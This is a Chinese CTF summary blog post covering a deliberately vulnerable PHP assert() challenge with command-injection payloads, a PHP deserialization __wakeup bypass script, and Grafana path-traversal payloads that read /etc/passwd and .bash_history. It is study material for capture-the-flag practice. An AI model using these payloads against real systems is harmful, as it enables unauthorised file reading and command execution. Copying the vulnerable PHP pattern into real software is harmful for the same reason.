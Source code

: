 title: 信安CTF总结
author: liuGuobin
date: 2022-11-06 21:57:22
tags:
---

##### 404页面:
url+404/
##### 命令执行:
```
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if($_GET['c'] === "flag"){            如果 c=flag 的话，会看到 flag.php 文件
        highlight_file("flag.php");
    }

    if(!preg_match("/flag/i", $c)){       正则匹配过滤 flag 字符
        $page = $_GET['c'];
    }
    
assert("file_exists('$page')");           assert 函数

}else{
    highlight_file(__FILE__);
}
?>
利用assert函数的特性，实现命令执行
assert函数里面的参数为字符串时，会将字符串当做php命令来执行。
assert('phpinfo()')=<?php phpinfo()?>
构造闭合函数，使 assert 函数执行系统命令
为还过滤了 flag 字符，使用?匹配符绕过

Payload：
?c=1') or system('ls
?c=1') or system('cat fla?.txt
```
##### 反序列化
construct()：构造函数/方法，是类中的一种特殊函数,当使用 new 关键字实例化一个对象时,构造函数将会自动调用
wakeup( )函数是在 php 在使用反序列化函数 unserialize()时，会自动调用的函数，只要序列化的中的成员数大于实际成员数，即可绕过
destruct()函数是在对象被销毁时才会被调用，可以注意到flag.php文件，需password=666绕过第一个if，username等于usernames才能够输出flag文件；
参数需要进行 base64 加密
Payload：
<?php
class Name{
 private $username = 'usernames';
 private $password = '666';
}
$select = serialize(new Name());
$select = str_replace(':2:',':3:',$select);
echo base64_encode($select);
##### grafana漏洞
抓包根据漏洞的原理，构造 payload 路径，进行任意文件读取
/public/plugins/alertlist/../../../../../../../../../etc/pa
sswd
看到系统的配置文件，存在哪些用户
linux 的历史记录文件.bash_history
构造 payload:
/public/plugins/alertlist/../../../../../../../../../home/grafana/.bash_history